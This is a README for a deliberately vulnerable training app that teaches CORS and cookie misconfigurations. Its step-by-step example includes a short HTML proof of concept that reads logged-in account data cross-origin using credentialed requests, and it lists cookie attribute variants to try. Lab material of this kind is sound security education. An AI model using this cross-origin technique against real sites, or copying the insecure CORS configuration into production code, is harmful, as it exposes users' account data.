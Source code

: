 ## CORS Playground
### Description

CORS playground provides a simple web application that you can utilise to enhance your comprehension of Cross Origin Resource Sharing. By default, it comes with CORS configured in a very unsafe way and could be easily exploited from different origins.

Observing how both CORS and the session's cookie behave under different configurations will greatly increase your knowledge of these two 
critical components of web application security, their common misconfigurations; exploitation and how to secure them properly.

### Default settings
CORS playground runs over https and listens on port number 5555

### URLs/endpoints
```http
POST /login.html
GET /main_page.html
GET /logout
GET /api/v2/accounts
GET /api/v1/accounts
```

### Example
The following is an example of running CORS playground and exploiting CORS misconfigurations from your local machine.

1. Add the following entries to the file /etc/hosts. You could use all these domains to test different values of the domain and SameSite cookie attribute.
```bash
## Domain for the CORS playground application itself.
127.0.0.1 playground.cors.test
## Same level domain as playground.cors.test.
127.0.0.1 project.cors.test
## Subdomain of playground.cors.test
127.0.0.1 pts.playground.cors.test
## parent domain .com.au
127.0.0.1 pts.playground.cors.test.com.au
## parent domain of playground.cors.test
127.0.0.1 cors.test                
## A totally different domain
127.0.0.1 another.domain.com
```
2. Run CORS playground with the command `nodejs app.js` (if running it for the first time, execute the command `npm install` to install the dependencies) then open up a browser to load `https://playground.cors.test:5555/` and log in.
3. Run an Apache web server over TLS.
4. Paste the following HTML code into a file named cors_attack.html (this file is also included in this repository) and save it on your apache webroot which by default is: `/var/www/html/`

```html
<!DOCTYPE html>
<html>
<head><meta charset="UTF-8"></head>
<body>
<script>
 var xhr = new XMLHttpRequest();
 xhr.onreadystatechange = function() {
  if (xhr.readyState == XMLHttpRequest.DONE) {
   console.log(xhr.response);
  }
 }
 url = 'https://playground.cors.test:5555/api/accounts';
 xhr.open('GET',url,true);
 xhr.setRequestHeader('CORS-playground','Penetration Testing Team');
 xhr.withCredentials = true;
 xhr.send();
</script>
</body>
</html>
```
5. Load the following url `https://another.domain.com/cors_attack.html` on a browser, the account information will be displayed on the browser console.
6. Use a http proxy such as Burp or the developer tools of the browser to observe the CORS requests/responses.
### Jump in

1. Add/delete/modify the attributes of the cookie generated within this application. Look for the line:
```node
res.cookie('session',randomvalue.toString(), { httpOnly: true, secure: true, sameSite: 'None'});
```
 Some settings you could try:
```node
res.cookie('session',randomvalue.toString(), {domain: '.playground.cors.test', httpOnly: true, secure: true, sameSite: 'Lax'});
res.cookie('session',randomvalue.toString(), { httpOnly: true, secure: true, sameSite: 'Strict'});
```
2. In the corsHandler function within the code of this application, uncomment the the section you'd like to play with and comment the remaining ones.
### References:
1. [CORS tutuorial](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
2. [Same Origin Policy tutorial](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)
3. [Cookies tutorial](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
4. [Portswigger Academy: CORS labs](https://portswigger.net/web-security/cors)
